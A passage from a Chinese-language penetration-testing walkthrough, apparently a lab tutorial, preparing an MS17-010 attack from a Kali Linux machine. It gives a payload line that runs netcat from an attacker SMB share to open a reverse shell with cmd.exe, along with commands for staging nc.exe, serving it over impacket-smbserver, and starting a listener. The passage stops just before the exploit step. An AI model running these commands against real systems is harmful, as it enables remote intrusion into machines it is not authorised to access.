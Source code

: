 **Netcat 反向 shell 负载**

我们最后的有效负载文件(ruby.exe)将在 TCP 端口 8080 上设置一个 netcat 反向 shell。这是通过以下代码行完成的:

I = system(" START/B \ \ \ \ 192 . 168 . 62 . 161 \ \ SMB \ \ NC . exe 192 . 168 . 62 . 161 8080-e cmd ")；

9.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

将 netcat 复制到登台目录(/tmp)

```
cp /usr/share/windows-resources/binaries/nc.exe /tmp
```

**设置所需的监听器**

接下来打开 Bash 终端的一个新实例。为每个“监听器”打开一个新标签。您需要为所有必需的侦听器打开 5 个选项卡。

10.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

设置 SMB 登台程序，以便将重要文件下载到目标。

```
sudo impacket-smbserver -ip 192.168.62.161 -port 445 smb /tmp/
```

![](img/fdffcc8a559cd23fa6323a742f7997a1.png)

11.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

在端口 8080 上启动一个 netcat 监听器来捕获 netcat 连接

```
rlwrap nc -nlvp 8080
```

![](img/2102032eda32bb7e02b8b5cf3cb3e641.png)

**准备 MS17–010 exploit**

我们现在已经为有效载荷做好了准备。下一节是关于运行实际的利用。打开一个新的 Bash 终端实例来执行命令。

12.在 192.168.62.161 上执行(攻击者机器，Kali Linux)

下载漏洞。
